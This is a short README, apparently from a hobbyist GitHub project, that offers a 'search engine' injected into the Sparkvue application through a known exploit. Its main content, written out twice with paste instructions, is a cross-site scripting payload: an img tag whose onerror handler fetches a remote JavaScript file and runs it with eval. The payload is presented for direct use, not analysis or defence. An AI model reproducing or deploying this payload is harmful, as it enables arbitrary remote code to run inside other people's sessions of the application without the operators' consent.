 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!

Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.
<img src=# onerror='fetch("https://github.com/FUSION-MAKEIT/CharlieSearch/raw/main/Searchengine.js").then(r=>r.text()).then(c=>eval(c))'>
img src=# onerror='fetch("https://github.com/FUSION-MAKEIT/CharlieSearch/raw/main/Searchengine.js").then(r=>r.text()).then(c=>eval(c))'

make sure to put the < at the front and > at the back
